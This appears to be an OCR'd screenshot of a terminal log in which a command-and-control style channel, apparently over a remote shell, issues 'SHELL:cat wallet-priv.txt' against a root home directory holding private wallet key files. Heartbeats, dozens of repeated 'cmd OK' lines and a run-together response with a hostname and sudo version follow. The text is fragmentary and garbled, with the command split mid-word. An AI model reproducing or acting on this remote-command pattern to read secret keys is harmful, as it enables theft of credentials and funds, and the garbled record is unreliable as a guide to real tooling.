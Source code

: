 ```shell
-rw-r--r--  1 root root 3106 May 20  2022 .bashrc
drwxr-xr-x  4 root root 4096 Jan  4 13:21 .cache
drwxr-xr-x  3 root root 4096 Jan 31 17:05 .config
-r--r--r--  1 root root 3106 May 20  2022 wallet-pub.txt
-r--------  1 root root 3106 May 20  2022 wallet-priv.txt
drwx------  3 root root 4096 Dec 31 11:27 .dbus
drwxr-xr-x  3 root root 4096 Jan  4 13:20 .local
-rw-r--r--  1 root root  161 Apr 28  2022 .profile
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:cat wall
heartbeat
cmd et-priv.txt
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroottotal 33
drwx------  6 root root 4096 Jan  7 09:57 .
```